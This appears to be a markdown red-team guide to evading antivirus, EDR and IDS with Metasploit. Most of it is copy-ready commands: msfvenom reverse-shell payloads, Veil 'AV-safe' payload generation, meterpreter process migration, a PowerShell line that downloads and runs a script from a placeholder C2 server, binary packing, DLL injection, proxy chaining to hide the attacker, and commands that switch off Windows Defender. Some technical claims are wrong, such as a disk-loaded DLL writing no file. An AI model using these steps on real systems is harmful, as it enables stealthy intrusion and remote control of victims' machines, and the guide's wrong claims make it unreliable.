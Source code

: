 
#  Advanced Evasion Techniques in Metasploit

##  Overview
Modern security solutions like **Intrusion Detection Systems (IDS), Endpoint Detection and Response (EDR), and Antivirus (AV)** actively monitor network traffic and system behavior to detect malicious activities. This guide covers advanced evasion techniques used by **penetration testers and red teamers** to bypass these defenses.

---

##  1. Understanding Detection Mechanisms
###  Signature-Based Detection
- Scans for known attack patterns (e.g., exploit payloads, shellcodes).
- Example: AV detecting `msfvenom` payloads.

###  Behavior-Based Detection
- Monitors suspicious activities (e.g., privilege escalation, process injection).
- Example: EDR detecting abnormal PowerShell execution.

###  Heuristic-Based Detection
- Uses AI/ML to detect anomalies in system behavior.
- Example: Sandboxing environments detecting encoded payloads.

###  Memory Scanning
- Detects malicious payloads loaded directly into memory.
- Example: Windows Defender scanning `mimikatz.exe` in RAM.

---

##  2. Evasion Techniques in Metasploit

###  2.1 Payload Encoding (Basic Evasion)
🔹 AVs often scan for **known shellcode signatures**.  
🔹 Metasploit provides **encoders** to **obfuscate** payloads.  

####  Encoding a Payload
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -f exe > bypass.exe
```
**What Happens?**  
- The `x86/shikata_ga_nai` encoder **encrypts the payload**, making it harder to detect.  
- However, modern AVs **use behavioral analysis**, so encoding alone is not enough.  

---

### 🏴‍☠️ 2.2 Custom Payload Obfuscation
🔹 AVs detect **default Metasploit payloads**.  
🔹 Use **Veil Framework** or **manual encryption**.

####  Using Veil to Generate Undetectable Payloads
```bash
git clone https://github.com/Veil-Framework/Veil.git
cd Veil
./config/setup.sh --force --silent
python3 Veil.py
```
```bash
use 41  # Select Python reverse shell
set LHOST 192.168.1.100
set LPORT 4444
generate
```
 **This creates an AV-safe payload!**  

---

###  2.3 Process Injection (Bypassing EDR)
🔹 Injecting shellcode into **legitimate processes** helps evade detection.  
🔹 Example: **Injecting into explorer.exe**.

####  Using `meterpreter` to Inject into a Process
```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
exploit
```
Once inside:
```ruby
meterpreter > ps  # List running processes
meterpreter > migrate -N explorer.exe  # Inject into explorer.exe
```
**What Happens?**  
- The **payload moves** into `explorer.exe`, hiding from security tools.  
- **EDRs track process behaviors**, so avoid injecting into **high-security processes (lsass.exe, winlogon.exe)**.  

---

###  2.4 Bypassing Windows Defender
####  Using PowerShell Downgrade Attack
```bash
powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://yourserver.com/script.ps1')"
```
**What Happens?**  
- **Execution policy is bypassed**, allowing malicious scripts.  
- The script is fetched from a remote **C2 server**.  

 **To avoid detection, use**:  
- Base64 encoding: `powershell -e <Base64_encoded_script>`  
- AMSI Bypass: Injecting `amsi.dll` hooks to disable scanning.  

---

###  2.5 Binary Packing (AV Evasion)
🔹 Packing tools **encrypt** payloads to evade signature-based detection.  

####  Using UPX (Basic)
```bash
upx --best --lzma bypass.exe
```
 **Reduces detection rate but not effective against EDR.**  

####  Using Themida (Advanced)
```bash
wine Themida.exe /protect bypass.exe
```
**What Happens?**  
- Themida **obfuscates the binary**, preventing reverse engineering.  

---

###  2.6 Network Evasion (IDS/IPS Bypass)
🔹 Security devices detect **common attack patterns** in network traffic.  
🔹 Solution: **Use encrypted channels and proxy chaining.**  

####  Using HTTPS Payloads
```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.100 LPORT=443 -f exe > stealth.exe
```
**What Happens?**  
- Traffic is **encrypted**, preventing detection by IDS.  

####  Using Proxy Chains for Anonymity
```bash
proxychains msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set LHOST 127.0.0.1
set LPORT 8080
exploit
```
 **Now all traffic is routed through proxies, hiding the attacker's real location.**  

---

##  3. Advanced Real-World Evasion Techniques
###  3.1 Reflective DLL Injection
🔹 Loads malicious DLLs directly into memory, avoiding disk scans.  

####  Generate a Malicious DLL
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f dll > exploit.dll
```
####  Inject into Memory
```bash
rundll32.exe exploit.dll,Start
```
 **Bypasses traditional AV because no file is written to disk!**  

---

###  3.2 Disabling Security Tools
🔹 Many organizations use **Defender, EDR, and SIEM solutions**.  
🔹 Attackers attempt to **disable these tools**.

####  Disabling Windows Defender
```bash
sc stop WinDefend
powershell Set-MpPreference -DisableRealtimeMonitoring $true
```
⚠️ **Detection Risk:** Disabling security tools **triggers alerts**, so use indirect methods like process hollowing.

---

##  Final Thoughts
✅ **Metasploit’s built-in evasion techniques** can **bypass basic security measures**.  
✅ **Custom obfuscation, process injection, and network encryption** are **essential for real-world red teaming**.  
✅ **Security teams must adopt advanced detection methods like behavioral analytics and memory scanning**.  

 **Ethical Hacking Reminder:**  
Only use these techniques in **authorized penetration tests**!   


